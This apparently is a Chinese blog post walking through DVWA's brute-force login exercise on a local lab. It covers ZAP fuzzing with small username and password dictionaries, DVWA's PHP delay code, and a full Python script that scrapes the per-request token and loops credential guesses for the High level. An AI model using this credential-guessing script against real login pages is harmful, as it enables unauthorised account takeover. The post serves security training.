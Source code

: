```yaml
---
permalink: 2019/04/21/dvwa-brute-force/
tags:
  - 爆破
layout: post
date: '2019-04-21 08:00:00'
categories:
  - web安全
  - DVWA
home_cover: ''
title: DVWA暴力破解(Brute Force)
---
```


暴力破解通常是用手工或者工具的方法对一个网站的登陆页面不断尝试各种用户名和密码的组合，直到能试出正确的一个组合。


DVWA的暴力破解难度等级分为四个 ：

- LOW：这一等级并没有对暴力破解做任何的防护，只需不断尝试即可破解。
- Medium: 这一等级是在LOW的基础上做了一点防护，当用户名和密码输错后会让用户在两秒后才能进行下一步的尝试。
- High:这一等级相比前两个等级有了较大的难度，在每次登陆时会带一个token字段发送到服务器端，服务器端会验证用户名，密码和token是否正确，正确才能登陆。token字段是随机生成的，当不了解使用何种算法生成token时是不能进行暴力破解的。
- Impossible: 这一等级DVWA在连续三次输错用户名和密码后会锁定15分钟，15分钟后才能尝试。这样的设定就无法进行暴力破解了。

## 字典


**暴力破解需要一本好的字典，字典越有针对性，破解过程越快。**
这里我们只是为了演示，就随便做了一个用户名的字典，一个密码的字典，字典内容如下：


用户名字典：


```text
admin
user
admin123
root
root123
administrator

```


密码字典：


```text
123456
root
admin123
password
qwerty
abcd1234

```


## LOW等级暴力破解


low等级的暴力破解比较简单，可以使用手工的方法在登陆页面不断进行尝试，但是这种方法用时会很长，这里我用用到了一款工具ZAP。


> OWASP Zed攻击代理（ZAP）是世界上最受欢迎的免费安全审计工具之一，由数百名国际志愿者积极维护。它可以帮助你在开发和测试应用程序时自动查找Web应用程序中的安全漏洞。  
> 也可以说ZAP是一个中间人代理。它能够获取你对Web应用程序发出的所有请求以及你从中收到的所有响应。


ZAP的安装过程省略，提供一个ZAP的下载地址：[https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)


### 设置浏览器代理


将其设置为ZAP所监听的端口，我设置的ZAP的端口为6666（默认端口为8080）。
所以需要设置浏览器的代理为：127.0.0.1:6666


浏览器端的设置代理的工具有很多，我用的是火狐浏览器，所用代理工具为“simpleProxy”。


![20190421213421.png](../post_images/4308e6d2ffc18e303fbbe761b540899e.png)


设置好代理后，浏览器端的所有请求和响应都会被ZAP所捕捉到。


### 捕捉并分析请求


在DVWA上随便输入一个用户名和密码，点击登陆，然后在ZAP上查看捕捉到的数据包。


![20190421215720.png](../post_images/6cbcaa25c4f48d2cee20b19538fd365b.png)


分析捕获到的请求数据报头，发现报头中会携带用户名和密码发送到服务器端，然后服务器端判断是否正确。此时我们就可以在ZAP上不断修改用户名和密码发送到服务器端，然后根据响应结果判断用户名密码是否正确。
ZAP提供的Fuzzer功能可以按照我们提供的字典修改请求头中的参数重复发送到服务器端。


![20190421220715.png](../post_images/f57e8430223ab17e93bb32aac4069bc9.png)


参数设置好后就可以开始爆破了。


![20190421221327.png](../post_images/1e32a0fe66b44851abd9dade27d010bf.png)


### 分析服务器返回的数据


![20190421222034.png](../post_images/ed45849d37e276107a745b714dc04883.png)


分析数据包发现有一个数据返回的Body大小和其它的都不一样，于是怀疑这条数据是登陆成功后返回的，其它的都是登陆失败后返回的。毕竟正确的用户名和密码只有一个。
于是将此用户名和密码输入到DVWA上发现登陆成功。


![20190421223450.png](../post_images/204ca5a6f6d0e6ce3e22db3e81b41d34.png)


## Medium等级暴力破解


Medium等级的暴力破解和LOW等级的暴力破解方法相同，只不过破解时间会变慢。在DVWA上查看源代码发现，每当输入错误的密码后，就会等待0-3秒才能进行下一次登陆。


```php
if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    } ;
```


此种方法只会延长暴力破解的时间，并不能阻止暴力破解。


## Hight等级暴力破解


和LOW等级一样，我们抓取Hight等级的请求数据包进行观察。


![20190422000439.png](../post_images/2bf368e11fc0e384a7dcb144a040caa7.png)


发现这个请求头比LOW等级的多了一个user_token参数，而且每次请求的user_token参数都是不同的。


_我们必须找出这个usertoken的值是从哪里来的，规律是什么才能进行下一步的暴力破解。
通过观察，我们发现在前端的HTML代码中，登陆框的form表单中有一个隐藏的input。_


![20190422001159.png](../post_images/d7326aa3832bd73f9a76d90622fe4f77.png)


发现每次请求都会带上其中的value值进行发送，不断刷新网页，又发现这个value值是不断变化的。在不知道源码的情况下是无法推算出此value值的计算方法的。


这里我写一段python代码来进行破解，思路大概是每次登陆前先获取HTNL代码中的value值然后放入header头中去请求服务器，直到成功为止。也可以使用burpsuit进行破解，过程请参考：
[https://blog.csdn.net/liweibin812/article/details/86287645](https://blog.csdn.net/liweibin812/article/details/86287645)


代码如下：


```python
import requests
from bs4 import BeautifulSoup
import sys

#DVWA High等级暴力破解

#获取usertoken值
header={
    'Host': '127.0.0.1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': 'http://127.0.0.1/dvwa/vulnerabilities/brute/',
    'Connection': 'keep-alive',
    'Cookie': 'security=high; PHPSESSID=mtsel2kcb1a4uecf6b7e87aa23',
}

def getusertoken():
    # 获取DVWA登陆页面
    r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header)
    rsp = r.text

    # 获取登陆表单中的value值
    soup = BeautifulSoup(rsp,'lxml')
    inputname = soup.find(attrs={'name':'usertoken'})
    value = inputname['value']
    return  value


#读取用户名和密码字典
f1 = open('username.txt','r')
userlist = f1.readlines()
for i in range(0,len(userlist)):
    userlist[i] = userlist[i].rstrip('\n')
f1.close()

f2 = open('password.txt','r')
passlist = f2.readlines()
for i in range(0,len(passlist)):
    passlist[i] = passlist[i].rstrip('\n')
f2.close()

# value值即get请求头中的usertoken
# 开始组合请求头并发送到服务器
for username in userlist:
    for password in passlist:
        payload = {'username':username,'password':password,'Login':'Login','usertoken':getusertoken()}
        r = requests.get('http://127.0.0.1/dvwa/vulnerabilities/brute/',headers=header,params=payload)
        rsp = r.text
        #判断是否登陆成功
        try:
            soup = BeautifulSoup(rsp,'lxml')
            errortext= soup.find(soup.pre.br.string)
            errortext = str(errortext)
            if 'incorrect' in errortext:
                print(username,password+'  '+'错误')
        except AttributeError:
            print(username,password+'  '+'正确')
            sys.exit() #找到正确密码就退出程序，不在往下执行

```

